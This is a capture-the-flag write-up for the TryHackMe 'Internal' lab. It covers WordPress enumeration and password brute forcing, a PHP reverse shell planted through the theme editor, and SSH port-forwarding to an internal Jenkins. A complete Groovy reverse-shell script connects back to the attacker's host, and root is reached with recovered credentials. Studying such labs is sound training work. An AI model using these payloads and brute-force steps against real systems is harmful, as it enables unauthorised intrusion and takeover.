

## Overview

Target reconnaissance and exploitation notes for the host **10.49.138.178** (TryHackMe “Internal”). This documents discovery of a WordPress foothold, lateral movement via SSH port-forwarding to an internal Jenkins service, and escalation to root.

---

## 1) Reconnaissance

### Service discovery

```bash
nmap -sV -sC 10.49.138.178
```

**Findings**

- TCP/22 (SSH) open
- TCP/80 (HTTP) open

### Content discovery (web)

```bash
gobuster dir -u http://10.49.138.178/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Findings**

- `/blog` (WordPress)
- `/wp-admin` (WordPress admin login)

---

## 2) WordPress Enumeration & Credential Discovery

### Enumerate users/plugins (WPScan)

```bash
wpscan --url http://internal.thm/blog/ -e ap,u --api-token <REDACTED>
```

**Result**

- Discovered user: `admin`

### Password attack (XML-RPC)

```bash
wpscan --url http://internal.thm/blog/ --password-attack xmlrpc -U admin -P /usr/share/wordlists/rockyou.txt -t 78
```

**Credentials obtained**

- WordPress: `admin / my2boys`

> Note: Store credentials securely; avoid embedding secrets directly in notes for shared environments.
>

---

## 3) Initial Foothold (Reverse Shell via Theme Editor)

### Method

1. Log into WordPress admin panel (`/wp-admin`) using discovered credentials.
2. Navigate to **Appearance → Theme Editor**.
3. Modify `404.php` to include a PHP reverse shell payload.

### Listener

```bash
rlwrap nc -lvnp 1337
```

### Trigger

Browse:

- `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

**Outcome**

- Reverse shell obtained on the target.

---

## 4) Local Enumeration & SSH Access as `aubreanna`

### Enumerate `/opt`

```bash
cd /opt
ls
cat wp-save.txt
```

**Recovered SSH credentials**

- `aubreanna / bubb13guM!@#123`

### SSH in

```bash
ssh aubreanna@10.49.138.178
```

### User flag

```bash
cat user.txt
```

**Flag**

- `THM{REDACTED}`

---

## 5) Internal Service Discovery: Jenkins (via SSH Port Forwarding)

### Service note

```bash
cat jenkins.txt
```

**Finding**

- Internal Jenkins service: `172.17.0.2:8080`

### Port forward Jenkins to local machine

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@10.49.138.178
```

Then open locally:

- `http://127.0.0.1:8080`

---

## 6) Jenkins Access & RCE (Script Console)

### Brute Force login page using OWASP ZAP




#### The credentials identified during the assessment were:

- Jenkins: `admin / spongebob`

### Reverse shell via Jenkins Script Console

Prepare listener:

```bash
rlwrap nc -lvnp 4444
```

Run in **Manage Jenkins → Script Console** (Groovy):

```groovy
String host="192.168.161.227";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0) so.write(pi.read());
  while(pe.available()>0) so.write(pe.read());
  while(si.available()>0) po.write(si.read());
  so.flush(); po.flush();
  Thread.sleep(50);
  try { p.exitValue(); break; } catch (Exception e) {}
}
p.destroy(); s.close();
```

### Verify context

```bash
id
```

**Observed**

- `uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)`

---

## 7) Privilege Escalation to Root

### Check `/opt` within Jenkins container context

```bash
cd /opt
ls
cat note.txt
```

**Recovered root credentials**

- `root / tr0ub13guM!@#123`

### SSH as root

```bash
ssh root@10.49.138.178
```

### Root flag

```bash
cat /root/root.txt
```

**Flag**

- `THM{REDACTED}`

---

## Summary

- Gained initial access via WordPress (`/blog`) by obtaining `admin` creds and triggering a reverse shell through a theme file edit.
- Pivoted to SSH as `aubreanna`, then port-forwarded to reach internal Jenkins (`172.17.0.2:8080`).
- Achieved RCE via Jenkins Script Console, then escalated to root using recovered credentials.
